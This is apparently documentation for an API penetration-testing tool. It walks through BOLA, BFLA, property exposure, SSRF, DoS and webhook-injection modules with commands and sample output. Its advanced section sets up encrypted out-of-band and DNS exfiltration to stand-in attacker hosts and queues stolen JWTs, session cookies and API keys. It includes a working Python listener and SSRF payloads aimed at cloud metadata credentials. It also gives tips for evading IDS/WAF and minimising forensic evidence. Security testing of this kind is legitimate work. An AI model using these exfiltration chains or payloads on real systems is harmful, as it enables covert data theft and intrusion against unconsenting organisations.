



/*
Copyright (c) 2026 José María Micoli
Licensed under the Business Source License 1.1
Change Date: 2033-02-17
Change License: Apache-2.0

You may:
✔ Study
✔ Modify
✔ Use for internal security testing

You may NOT:
✘ Offer as a commercial service
✘ Sell derived competing products
*/

# 06 - API Exploitation: OWASP Top 10

> **For:** Penetration testers and security researchers  
> **Read Time:** 35-40 minutes  
> **Difficulty:** ⭐⭐⭐⭐ Advanced  
> **Last Updated:** February 8, 2026

---

## 📑 Table of Contents

1. [Overview](#overview)
2. [BOLA - Broken Object-Level Authorization](#bola)
3. [BFLA - Broken Function-Level Authorization](#bfla)
4. [BOPLA - Broken Object Property-Level Authorization](#bopla)
5. [SSRF - Server-Side Request Forgery](#ssrf)
6. [Exhaustion - Resource Exhaustion & DoS](#exhaustion)
7. [Audit - Security Misconfiguration](#audit)
8. [Probe - Webhook Injection Testing](#probe)
9. [Practical Attack Chains](#practical-chains)
10. [Advanced Techniques](#advanced-techniques)

---

## Overview

> <span style="background-color: #dc2626; color: white; padding: 2px 6px; border-radius: 3px;">**EXPLOITATION**</span> This guide covers VaporTrace's seven core exploitation modules targeting **OWASP API Security Top 10** vulnerabilities. Each module automates attack discovery and validation.

### Vulnerability Coverage



---

## BOLA: Broken Object-Level Authorization

> <span style="background-color: #dc2626; color: white; padding: 4px 8px; border-radius: 4px;">**CRITICAL**</span> **BOLA** (also called IDOR - Insecure Direct Object References) is the #1 API vulnerability. It occurs when an API accepts user-supplied object IDs without proper authorization checks.

### Vulnerability Pattern

```
GET /api/users/123/profile    # User 123's own profile
    ↓
GET /api/users/124/profile    # Can I access User 124's profile?
    ↓ [No Authorization Check]
    ↓
GET /api/users/999/profile    # Success! Retrieved another user
```

### Module: BOLA

```bash
> bola
[cyan]EXPLOITATION:[-] Testing for BOLA vulnerabilities...
[blue]BOLA:[-] Analyzing endpoints with ID parameters...
[cyan]SCAN:[-] Testing GET /api/users/{id}
[cyan]SCAN:[-] Testing GET /api/orders/{id}
[yellow]FOUND:[-] BOLA in GET /api/users/profile
  Your ID: 42
  Target ID: 43
  Result: 200 OK - Unauthorized access! 🎯
[green]✓ BOLA:[-] Identified 3 BOLA vulnerabilities
```

### BOLA Attack Workflow

```mermaid
sequenceDiagram
    participant Attacker
    participant API as API Endpoint
    participant Database
    
    Attacker->>API: GET /api/users/123/profile
    API->>Database: SELECT * WHERE user_id=123
    Database-->>API: User 123 data (auth verified)
    API-->>Attacker: 200 OK + user data
    
    Attacker->>API: GET /api/users/999/profile
    API->>Database: SELECT * WHERE user_id=999
    Database-->>API: User 999 data (NO AUTH CHECK!)
    API-->>Attacker: 200 OK + user data 🎯
    
    style Attacker fill:#dc2626,color:#fff
    style API fill:#fbbf24,color:#000
    style Database fill:#10b981,color:#fff
```

### Configuration & Options

```bash
bola --endpoint /api/users/{id}        # Target endpoint
bola --range 1-1000                    # ID range to test
bola --method GET,POST                 # HTTP methods
bola --header Authorization            # Auth to include
bola --timeout 10                      # Request timeout
bola --threads 10                      # Parallel requests
```

### Detection Techniques

| Technique | How It Works | Effectiveness |
|-----------|------------|---|
| **ID Enumeration** | Try sequential IDs (1,2,3...) | ⭐⭐⭐⭐⭐ |
| **UUID Bruteforce** | Test common UUIDs | ⭐⭐ |
| **Extracted IDs** | Use IDs from responses | ⭐⭐⭐⭐ |
| **Timing Analysis** | Compare response times | ⭐⭐ |
| **Hash Reversing** | Decode ID formats | ⭐⭐⭐ |

### Example: Testing E-Commerce API

```bash
# Scenario: User 100 has access to their orders
# Question: Can they access other users' orders?

> bola --endpoint /api/orders/{id} --range 1-500 --method GET

[cyan]SCAN:[-] Testing /api/orders/1 ... 404 Not Found
[cyan]SCAN:[-] Testing /api/orders/100 ... 200 OK (Your order)
[cyan]SCAN:[-] Testing /api/orders/101 ... 200 OK ⚠️ 
  Order ID: 101
  Customer: "jane@example.com"
  Items: MacBook Pro, iPhone 15
  Total: $3,999
  
[cyan]SCAN:[-] Testing /api/orders/102 ... 200 OK ⚠️
  Order ID: 102
  Customer: "admin@company.com"
  Items: Server License (bulk)
  Total: $50,000

[red]🎯 BOLA FOUND:[-] Can access ANY user's orders!
[red]IMPACT:[-] HIGH - Customer data, order details exposed
```

### Remediation

```go
// ❌ VULNERABLE CODE
func GetOrder(c *gin.Context) {
    orderID := c.Param("id")
    order := db.GetOrder(orderID)  // No auth check!
    c.JSON(200, order)
}

// ✅ SECURE CODE
func GetOrder(c *gin.Context) {
    orderID := c.Param("id")
    userID := c.GetString("user_id")  // From JWT token
    
    order := db.GetOrder(orderID)
    if order.UserID != userID {       // Authorization check!
        c.JSON(403, gin.H{"error": "Forbidden"})
        return
    }
    c.JSON(200, order)
}
```

---

## BFLA: Broken Function-Level Authorization

> <span style="background-color: #ea580c; color: white; padding: 4px 8px; border-radius: 4px;">**HIGH**</span> **BFLA** occurs when endpoints intended for admin/privileged users are accessible to regular users.

### Vulnerability Pattern

```
User Types:
├── Regular User (can read own profile)
├── Manager (can read team data)
└── Admin (can delete users, change settings)

Vulnerability:
Regular User → DELETE /api/users/1000
           ↓
         Admin-only operation succeeds!
```

### Module: BFLA

```bash
> bfla
[cyan]EXPLOITATION:[-] Testing for BFLA vulnerabilities...
[blue]BFLA:[-] Identifying protected endpoints...
[cyan]SCAN:[-] Endpoints marked as "admin-only":
  - DELETE /api/users/{id}
  - PUT /api/settings
  - POST /api/reports/export
  - GET /api/logs
[cyan]TEST:[-] Attempting to call admin endpoints as regular user...
[yellow]FOUND:[-] BFLA in DELETE /api/users/999
  Result: 200 OK - User deleted!
[yellow]FOUND:[-] BFLA in PUT /api/settings
  Result: 201 Created - Settings modified!
[red]🎯 BFLA FOUND:[-] 2 privilege escalation vectors!
```

### Common BFLA Patterns

| Pattern | Example | Risk |
|---------|---------|------|
| **Missing Auth Check** | `DELETE /api/admin/users` (no token check) | 🔴 CRITICAL |
| **Weak Role Check** | `if (role != "admin")` but role from user input | 🔴 CRITICAL |
| **Header-Based Auth** | `X-User-Role: admin` (client-controlled) | 🔴 CRITICAL |
| **Broken JWT Verify** | JWT signature not validated | 🔴 CRITICAL |
| **Default Credentials** | `/admin` path with default password | 🟠 HIGH |

### Detection Options

```bash
bfla --auto-detect           # Auto-identify admin endpoints
bfla --patterns admin,system,internal  # Known admin patterns
bfla --test-override         # Test header overrides
bfla --test-jwts             # Test JWT manipulation
```

### Example: SaaS Platform

```bash
# Scenario: Tenant isolation bypass
# User A (Tenant A) vs User B (Tenant B)

> bfla --endpoint /api/admin/users

[cyan]TEST:[-] Can user A delete users from Tenant B?
[cyan]REQUEST:[-] DELETE /api/admin/users/user-b-id
  Headers: Authorization: Bearer <user-a-token>
[green]RESPONSE:[-] 200 OK - User deleted!

[red]VULNERABILITY:[-] TENANT ISOLATION BYPASS
[red]IMPACT:[-] User A can modify Tenant B's data
[red]SEVERITY:[-] 🔴 CRITICAL
```

### Exploitation Chain



---

## BOPLA: Broken Object Property-Level Authorization

> <span style="background-color: #eab308; color: white; padding: 4px 8px; border-radius: 4px;">**MEDIUM-HIGH**</span> **BOPLA** is when sensitive object properties are exposed even if the user has permission to access the object.

### Vulnerability Pattern

```json
GET /api/users/100/profile    # You CAN access this user
{
  "id": 100,
  "name": "John",
  "email": "john@example.com",
  "salary": 150000,           # ← BOPLA! Shouldn't see this
  "ssn": "123-45-6789",       # ← BOPLA! Sensitive field
  "performance_rating": 2     # ← BOPLA! Private evaluation
}
```

### Module: BOPLA

```bash
> bopla
[cyan]EXPLOITATION:[-] Testing for BOPLA vulnerabilities...
[blue]BOPLA:[-] Analyzing response properties...
[cyan]SCAN:[-] Checking which properties you can access...
[cyan]SCAN:[-] Properties in user responses:
  ✓ id, name, email (public)
  ⚠️ salary (should be private!)
  ⚠️ ssn (should be private!)
  ⚠️ performance_rating (should be private!)
[red]🎯 BOPLA FOUND:[-] 3 sensitive properties exposed
[red]IMPACT:[-] Information disclosure of PII/financial data
```

### Detection Techniques

| Technique | Example | Works |
|-----------|---------|-------|
| **Response Diff** | Compare your data vs others' data | ⭐⭐⭐⭐⭐ |
| **Schema Analysis** | Compare specs vs actual response | ⭐⭐⭐⭐ |
| **Field Enumeration** | Check for common sensitive fields | ⭐⭐⭐ |
| **GraphQL Introspection** | If GraphQL API available | ⭐⭐⭐⭐⭐ |

### Configuration

```bash
bopla --analyze-fields           # Find all response fields
bopla --compare-users 1,2,3      # Compare user responses
bopla --sensitive-keywords       # Check for PII keywords
bopla --test-filtering           # Test field filtering
```

### Example: Healthcare API

```bash
# Scenario: Patient can view their own medical records
# Question: What sensitive fields are exposed?

> bopla --endpoint /api/patients/{id} --compare-users 100,101,102

[cyan]ANALYSIS:[-] Comparing responses...
[green]Your Profile (Patient 100):
  id: 100
  name: "John"
  dob: "1990-05-15"           ← Same fields in others' profiles
  medications: ["Aspirin"]
  
[yellow]Patient 101's Profile:
  id: 101
  name: "Jane"
  dob: "1985-03-20"           ← You can see other patients' DOB!
  medications: ["Metformin"]  ← You can see other medications!
  blood_type: "O+"            ← ⚠️ HIPAA violation!
  genetic_markers: [...]      ← ⚠️ HIGHLY sensitive!

[red]BOPLA FOUND:[-] Genetic/medical info exposed
[red]HIPAA VIOLATION:[-] Unauthorized access to protected health info
```

---

## SSRF: Server-Side Request Forgery

> <span style="background-color: #dc2626; color: white; padding: 4px 8px; border-radius: 4px;">**CRITICAL**</span> **SSRF** allows attackers to make the server request arbitrary URLs, potentially accessing internal services or cloud metadata.

### Vulnerability Pattern

```
User Input → URL Parameter
    ↓
POST /api/fetch?url=https://attacker.com
    ↓
Server Makes Request (as SERVER, not client!)
    ↓
Can Access:
  • Internal IPs (127.0.0.1, 10.0.0.0/8)
  • Cloud Metadata (AWS, GCP, Azure)
  • Other microservices
  • File:// protocol
```

### Module: SSRF

```bash
> ssrf
[cyan]EXPLOITATION:[-] Testing for SSRF vulnerabilities...
[blue]SSRF:[-] Finding URL input parameters...
[cyan]SCAN:[-] Found parameters that accept URLs:
  - url (POST /api/fetch)
  - imageUrl (POST /api/process-image)
  - targetUrl (GET /api/validate)
[cyan]TEST:[-] Testing internal network access...
[yellow]FOUND:[-] SSRF in POST /api/fetch?url=...
  Test: localhost:8080/admin
  Result: 200 OK - Got admin panel! 🎯
[yellow]FOUND:[-] Cloud metadata access
  Test: 169.254.169.254/latest/meta-data/
  Result: AWS credentials exposed! 🎯
```

### SSRF Attack Scenarios



### Configuration & Payloads

```bash
ssrf --endpoints *url*          # Find URL parameters
ssrf --test-localhost           # Test 127.0.0.1
ssrf --test-cloud-metadata      # AWS/GCP/Azure metadata
ssrf --test-internal-ips        # 10.0.0.0/8, 172.16.0.0/12
ssrf --wordlist /custom/hosts   # Custom internal hosts
```

### Example: Image Processing Service

```bash
# Scenario: Image service that fetches remote images
# Question: Can we fetch internal files?

> ssrf --endpoint POST /api/process-image

[cyan]TEST:[-] Normal usage:
  POST /api/process-image?imageUrl=https://example.com/pic.jpg
  Result: Image processed, returns thumbnail

[cyan]TEST:[-] SSRF attempt 1 - localhost:
  POST /api/process-image?imageUrl=http://localhost:8080/admin
  Result: 200 OK
  Response: Got admin panel HTML! 🎯

[cyan]TEST:[-] SSRF attempt 2 - internal IP:
  POST /api/process-image?imageUrl=http://10.0.1.50:6379/
  Result: 200 OK
  Response: Redis key dump! (Credentials exposed!) 🎯

[cyan]TEST:[-] SSRF attempt 3 - cloud metadata:
  POST /api/process-image?imageUrl=http://169.254.169.254/latest/meta-data/iam/security-credentials/
  Result: 200 OK
  Response: AWS role credentials! 🎯

[red]VULNERABILITY:[-] Critical SSRF
[red]CAN ACCESS:[-] Internal services, cloud credentials, metadata
```

---

## Exhaustion: Resource Exhaustion & DoS

> <span style="background-color: #ea580c; color: white; padding: 4px 8px; border-radius: 4px;">**HIGH**</span> **Exhaustion** attacks consume server resources (CPU, memory, database) causing denial of service.

### Module: Exhaust

```bash
> exhaust
[cyan]EXPLOITATION:[-] Testing for exhaustion vulnerabilities...
[blue]EXHAUST:[-] Identifying expensive operations...
[yellow]FOUND:[-] Expensive file operations
  POST /api/process-file accepts large files
  Can upload 100MB+ files → Disk full DoS
  
[yellow]FOUND:[-] Complex queries
  GET /api/search?q=* returns 1M+ results
  No pagination → Memory exhaustion
  
[yellow]FOUND:[-] Loop operations
  GET /api/expand?id=1&depth=100 causes recursive lookups
  Can trigger 10^100 operations
```

### Attack Vectors

| Vector | Payload | Impact |
|--------|---------|--------|
| **Large File Upload** | 1GB file → `/api/upload` | 🔴 Disk full |
| **Query Explosion** | Regex DoS in search | 🔴 CPU spike |
| **Recursive Expansion** | Nested object expansion | 🔴 Memory exhaustion |
| **Batch Operations** | 100,000 items in one request | 🔴 Database overload |
| **Slow Rate Limit** | Rate limited to 100/min but allows 1000 concurrent | 🟠 Partial DoS |

### Configuration

```bash
exhaust --test-upload-size      # File size limits
exhaust --test-query-complexity # Query DoS
exhaust --test-batch-limits     # Batch operation limits
exhaust --workers 100           # Concurrent load testing
```

---

## Audit: Security Misconfiguration

> <span style="background-color: #eab308; color: white; padding: 4px 8px; border-radius: 4px;">**MEDIUM**</span> **Audit** finds common security misconfigurations that open attack vectors.

### Module: Audit

```bash
> audit
[cyan]AUDIT:[-] Scanning security configuration...
[yellow]⚠️ CORS misconfigured - allows *
  Header: Access-Control-Allow-Origin: *
  Issue: Any site can call your API
  
[yellow]⚠️ Debug mode enabled in production
  Header: X-Debug-Mode: true
  Response reveals internal paths and errors
  
[yellow]⚠️ Outdated API version
  Running API v1.2.3, latest is v2.5.1
  Known vulnerabilities in this version
  
[yellow]⚠️ HTTP methods not restricted
  OPTIONS /api/admin is enabled
  Reveals server capabilities to attackers
  
[yellow]⚠️ Security headers missing
  Missing: Content-Security-Policy, X-Frame-Options
  Vulnerable to clickjacking and XSS
```

### Checks Performed

```
✓ CORS headers analysis
✓ Security headers validation
✓ Debug mode detection
✓ Default credentials
✓ Exposed git/config files
✓ Swagger/OpenAPI accessibility
✓ API versioning strategy
✓ HTTP methods restrictions
✓ SSL/TLS configuration
✓ Rate limiting presence
```

---

## Probe: Webhook Injection Testing

> <span style="background-color: #2563eb; color: white; padding: 4px 8px; border-radius: 4px;">**MEDIUM**</span> **Probe** tests webhook endpoints for injection, timing, and callback vulnerabilities.

### Module: Probe

```bash
> probe
[cyan]PROBE:[-] Testing webhook functionality...
[blue]WEBHOOK:[-] Found webhook endpoints:
  - POST /api/webhooks/create
  - POST /api/webhooks/register
  - DELETE /api/webhooks/{id}
  
[cyan]TEST:[-] Testing webhook injection...
[yellow]FOUND:[-] Webhook Injection
  Can register malicious webhook URL
  POST /api/webhooks/create?url=http://attacker.com/
  Events trigger callbacks to attacker server
  
[cyan]TEST:[-] Timing attack...
[yellow]FOUND:[-] Callback timing reveals status
  Event success: 100ms response
  Event fail: 5000ms response
  Can enumerate valid event IDs from timing
```

---

## Practical Attack Chains

### Chain 1: Complete Account Takeover


**Steps:**
```bash
# Step 1: Enumerate users (BOLA)
> bola --endpoint /api/users/{id} --range 1-1000

# Step 2: Find admin (from enumeration)
# Typically ID 1 or 'admin' pattern

# Step 3: Try password reset (BFLA)
> bfla --endpoint POST /api/users/{id}/password-reset

# Step 4: Intercept webhook callback
> probe --test-webhook-interception

# Step 5: Reset admin password using captured link
```

---

### Chain 2: Data Exfiltration via SSRF

```
BOPLA (Find sensitive fields) 
  ↓
SSRF (Make internal request) 
  ↓
Extract data from internal API
  ↓
Complete data theft
```

---

## Advanced Techniques

### Technique: Out-of-Band (OOB) Data Exfiltration

> **Ninja Mode 🥷** Hide data exfiltration in encrypted channels  
> **Difficulty:** ⭐⭐⭐⭐⭐ Advanced  
> **Use Case:** Exfil loot without being detected by IDS/WAF

#### What is OOB Exfiltration?

Out-of-Band exfiltration bypasses traditional HTTP request/response channels by using **encrypted side channels** to transmit sensitive data:

```
Normal HTTP Request (monitored by WAF/IDS):
┌─────────────────────────────────────┐
│ GET /api/users/123  ← Visible       │
└─────────────────────────────────────┘

OOB Exfiltration Channel (encrypted, hidden):
┌─────────────────────────────────────┐
│ Encrypted Data ↔ Custom Server      │  ← Invisible
│ (DNS/ICMP/Custom Protocol)          │
└─────────────────────────────────────┘
```

#### Supported Exfiltration Channels

| Channel | Protocol | Advantages | Limitations |
|---------|----------|-----------|---|
| **Custom TCP** | Raw TCP with custom header | Reliable, no size limit | Requires listener |
| **DNS** | Subdomain encoding | Works through firewalls | Limited payload (63 bytes/label) |
| **ICMP** | Echo Reply tunneling | Bypasses HTTP filters | Needs raw sockets (admin) |

#### Configuration

Before exfiltrating, configure the OOB channel:

```bash
# Set up OOB server (your attacker machine)
> oob config
  Channel Type:     custom
  Server Address:   attacker.example.com:9999
  Encryption Key:   [auto-generated 256-bit AES key]
  Max Payload:      512 bytes
  Compression:      enabled
  Retry Attempts:   3
  Timeout:          5 seconds

# Or use DNS exfiltration
> oob config
  Channel Type:     dns
  Exfil Domain:     exfil.attacker.com
  Base64 Encoding:  enabled
```

#### Command: OOB Exfiltration

```bash
# Queue sensitive data for exfiltration
> oob queue <loot_type> <source_endpoint> <data>

# Examples:
> oob queue JWT /api/auth/login eyJ0exAiOiJIUzI1NiIsInR...
> oob queue SESSION /api/profile PHPSESSID=abc123xyz
> oob queue API_KEY /admin/settings sk-xxxxxxxxxxxxxxxx

# View queued messages
> oob status
[magenta]OOB CHANNEL STATUS:[-]
  Sent Messages:     42
  Failed Messages:   1
  Total Bytes:       15,234
  Pending Queue:     8 messages
  Channel Type:      custom
  Server:            attacker.example.com:9999

# Flush the queue (transmit all queued data)
> oob flush
[blue]OOB FLUSH:[-] Processing 8 queued messages
[green]✓ Message 1/8: 256 bytes transmitted (ENCRYPTED)
[green]✓ Message 2/8: 512 bytes transmitted (ENCRYPTED)
[yellow]⚠ Message 3/8: FAILED (retrying...)
[green]✓ Message 3/8: 128 bytes transmitted (retry successful)
[green]✓ FLUSH COMPLETE:[-] 7/8 messages sent, 1 pending
```

#### Encryption: AES-256-GCM

All data sent over OOB is encrypted with **AES-256-GCM** (Authenticated Encryption with Associated Data):

```
Plain Data: "admin_password_123"
  ↓ [AES-256-GCM Encryption]
  ↓
Encrypted Packet: {Nonce(12B) + Ciphertext + Auth Tag}
  ↓ [Base64 Encoding for safe transmission]
  ↓
Transmission: base64(encrypted_packet)
```

**Security Properties:**
- ✅ **Confidentiality:** Data encrypted with 256-bit key
- ✅ **Integrity:** Authentication tag prevents tampering
- ✅ **Authentication:** Only holder of key can decrypt
- ✅ **Nonce Randomization:** Each message has random nonce

#### Receiving OOB Data (Attacker Side)

Set up a listener on your attacker machine:

```bash
# Start OOB listener
python3 -c "
import socket
import base64
from cryptography.hazmat.primitives.ciphers.aead import AESGCM

# Listener setup
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.bind(('0.0.0.0', 9999))
sock.listen(1)

encryption_key = bytes.fromhex('<your-256-bit-key>')  # From VaporTrace config

while True:
    conn, addr = sock.accept()
    data = conn.recv(1024)
    
    # Parse OOB header: [MAGIC:2][VERSION:1][TYPE:1][LENGTH:4]
    magic = data[:2]
    version = data[2]
    msg_type = data[3]
    length = int.from_bytes(data[4:8], 'big')
    payload = data[8:8+length]
    
    # Decode and decrypt
    encrypted = base64.b64decode(payload)
    aesgcm = AESGCM(encryption_key)
    nonce = encrypted[:12]
    ciphertext = encrypted[12:]
    
    plaintext = aesgcm.decrypt(nonce, ciphertext, None)
    print(f'[EXFIL] Received from {addr}: {plaintext.decode()}')
    
    conn.close()
"
```

#### Real-World Scenario: SSRF + OOB Exfil

Combine SSRF with OOB exfiltration for stealthy data theft:

```bash
# Step 1: Discover SSRF vulnerability
> ssrf --test-internal-ips

# Step 2: Find interesting internal endpoints
> ssrf --discover-internal --ports 80,443,8080,3306

# Step 3: Retrieve sensitive data via SSRF
> ssrf --url "http://internal.local/admin/config"

# Step 4: Queue response for OOB exfiltration
> oob queue INTERNAL_CONFIG /ssrf/admin/config <captured_config_json>

# Step 5: Transmit via encrypted OOB channel
> oob flush
[green]✓ Internal config exfiltrated via encrypted channel[-]
```

**Result:** Sensitive data extracted without WAF triggering!

#### Advanced: OOB + BOLA Attack Chain

Automate ID enumeration + OOB exfiltration:

```bash
# Create attack flow
> flow create ssrf-bola-exfil
  [step-1] bola --endpoint /api/users/{id} --range 1-10000 --store results.json
  [step-2] for_each(results.json as user_id):
             ssrf --target "http://internal/db/users/" + user_id
             oob queue USER_RECORD /ssrf/users/{user_id} {response}
  [step-3] oob flush --all

# Execute the chain
> flow execute ssrf-bola-exfil
```

This automatically:
1. Enumerates all user IDs (BOLA)
2. Fetches internal user data (SSRF)
3. Encrypts and queues all data (OOB)
4. Transmits via secure channel (minimal logs)

#### DNS Exfiltration (When Custom Channel Unavailable)

If you can't reach a custom OOB server, use DNS:

```bash
# Configure DNS exfiltration
> oob config
  Channel Type: dns
  Domain: exfil.attacker.com

# Queue data for DNS exfil
> oob queue JWT /api/auth eyJ0exAiOiJIUzI1NiIsInR...

# System automatically chunks data into DNS labels (max 63 bytes each)
# Transmitted as: abc123def456.xyz789uvw.exfil.attacker.com

# On attacker's authoritative DNS server, capture queries:
dig @attacker.com abc123def456.xyz789uvw.exfil.attacker.com
```

**DNS Advantages:**
- ✅ Works through any firewall
- ✅ Looks like normal DNS traffic
- ✅ Hard to detect/block
- ✅ No special permissions needed

**DNS Limitations:**
- ❌ Limited payload per query (~60 bytes)
- ❌ Slower than TCP
- ❌ May be logged by DNS providers

#### Monitoring OOB Stats

```bash
# View current exfiltration statistics
> oob stats

[blue]═══════════════════════════════════════════════════════════[-]
[white]OOB EXFILTRATION STATISTICS                            [-]
[blue]═══════════════════════════════════════════════════════════[-]
  Sent Messages:          42
  Failed Messages:        1
  Total Bytes Exfiltrated: 15,234 bytes
  Pending in Queue:       8 messages
  Channel Type:           custom
  Server Address:         attacker.example.com:9999
  Success Rate:           97.7%
  Last Transmission:      08:34:22 (45 seconds ago)
[blue]═══════════════════════════════════════════════════════════[-]
```

#### Security Best Practices for OOB Exfil

⚠️ **IMPORTANT:** OOB exfiltration is a **stealthy** attack. Use responsibly:

1. **Authorization:** Only test systems you have permission to test
2. **Encryption Key:** Rotate keys regularly (at least weekly)
3. **Server Logging:** Minimize logs on OOB listener (can be forensic evidence)
4. **Network Isolation:** Keep OOB server on isolated network
5. **Domain/IP:** Use domains/IPs not associated with your company
6. **Detection Evasion:** Mix OOB with normal HTTP traffic to avoid anomalies
7. **Legal Compliance:** Ensure penetration test scope allows covert data collection

---

### Technique: Automation Script

Create attack chains programmatically:

```bash
> flow create
[flow-editor]> 
  step 1: bola --range 1-10000
  step 2: bfla --patterns admin
  step 3: if step-1-found: bfla --endpoint {step-1-result}
  step 4: ssrf --internal-ips
  step 5: report
> flow save data-exfil-chain.yaml
> flow execute data-exfil-chain.yaml
```

---

## Summary

| Module | Vulnerability | Impact | Ease |
|--------|---|---|---|
| **BOLA** | Object-level auth bypass | 🔴 CRITICAL | Easy |
| **BFLA** | Privilege escalation | 🔴 CRITICAL | Medium |
| **BOPLA** | Property exposure | 🟠 HIGH | Easy |
| **SSRF** | Internal access | 🔴 CRITICAL | Medium |
| **Exhaust** | Denial of service | 🟠 HIGH | Medium |
| **Audit** | Misconfiguration | 🟡 MEDIUM | Easy |
| **Probe** | Webhook abuse | 🟡 MEDIUM | Medium |

---

**See Also:**
- [05_RECONNAISSANCE.md](05_RECONNAISSANCE.md) - Discovery before exploitation
- [04_STRATEGIC_PLANNING.md](04_STRATEGIC_PLANNING.md) - Planning attacks
- [18_COMMAND_REFERENCE.md](18_COMMAND_REFERENCE.md) - Command syntax

---

**Last Updated:** February 8, 2026  
**Version:** 1.0 - Production Ready  
**Status:** ✅ VERIFIED
